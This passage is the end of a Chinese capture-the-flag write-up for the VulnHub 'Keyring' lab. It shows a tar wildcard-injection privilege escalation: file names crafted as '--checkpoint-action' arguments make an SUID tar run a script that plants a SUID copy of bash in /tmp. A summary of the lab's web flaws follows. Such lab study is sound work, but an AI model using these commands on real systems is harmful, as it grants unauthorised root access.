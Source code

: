 主要构造后面两个即可，当然如果是执行语句，构造很长也是可行的，毕竟是以`suid`权限执行。不过最好是复制`/bin/bash`到`tmp`，并给予`suid`权限，这可是一个可维持长时间的

构造语句

```shell
#都是在同一目录下，也就是可执行文件compress同级目录
echo "cp /bin/bash /tmp/bash;chmod +s /tmp/bash" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

![](D:\stu\vulnhub\IA靶场\Keyring-pic\29.jpg)

执行`compress`，可以发现在`/tmp`下已经有了一个suid权限的`bash`

![](D:\stu\vulnhub\IA靶场\Keyring-pic\30.jpg)

切换到`/tmp`目录下，然后执行当前目录下的`bash`，即可获取`root`权限

![](D:\stu\vulnhub\IA靶场\Keyring-pic\31.jpg)



# 总结

该靶场考察以下几点：

1. 对于登录时的一些逻辑，比如这里的`history`就是通过`cookie`进行检验，所以在遇到可注册的界面时，都要去测试，最好是抓包测试
2. 参数污染，根据逻辑去模糊测试
3. 信息泄露，在`github`上找到源码
4. sql注入，考察登录后的sql注入，并且是字符型
5. 一码多用的情况
6. `tar`的SUID提权 ，主要就是`*`这个危险，导致把文件名变为可提权的命令























